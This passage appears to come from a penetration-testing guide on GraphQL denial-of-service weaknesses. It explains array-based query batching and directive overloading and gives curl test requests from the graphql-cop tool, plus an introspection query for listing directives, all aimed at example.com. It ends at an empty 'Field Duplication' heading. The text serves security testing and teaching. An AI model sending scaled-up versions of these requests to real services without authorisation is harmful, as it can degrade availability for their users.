 ```
**Array-based Query Batching** is a vulnerability where a GraphQL API allows batching multiple queries in a single request, enabling an attacker to send a large number of queries simultaneously. This can overwhelm the backend by executing all the batched queries in parallel, consuming excessive resources (CPU, memory, database connections) and potentially leading to a **Denial of Service (DoS)**. If no limit exists on the number of queries in a batch, an attacker can exploit this to degrade service availability.

```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '[{"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}]' \
'https://example.com/graphql'
```
```
In this example, 10 different queries are batched into one request, forcing the server to execute all of them simultaneously. If exploited with a larger batch size or computationally expensive queries, it can overload the server.

### **Directive Overloading Vulnerability**

**Directive Overloading** occurs when a GraphQL server permits queries with excessive, duplicated directives. This can overwhelm the server’s parser and executor, especially if the server repeatedly processes the same directive logic. Without proper validation or limits, an attacker can exploit this by crafting a query with numerous duplicate directives to trigger high computational or memory usage, leading to **Denial of Service (DoS)**.

```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa }", "operationName": "cop"}' \
'https://example.com/graphql'
```
```
Note that in the previous example `@aa` is a custom directive that **might not be declared**. A common directive that usually exists is **`@include`**:

```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @include(if: true) @include(if: true) @include(if: true) @include(if: true) @include(if: true) }", "operationName": "cop"}' \
'https://example.com/graphql'
```
```
You can also send an introspection query to discover all the declared directives:

```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "{ __schema { directives { name locations args { name type { name kind ofType { name } } } } } }"}' \
'https://example.com/graphql'
```
```
And then **use some of the custom** ones.

### **Field Duplication Vulnerability**

```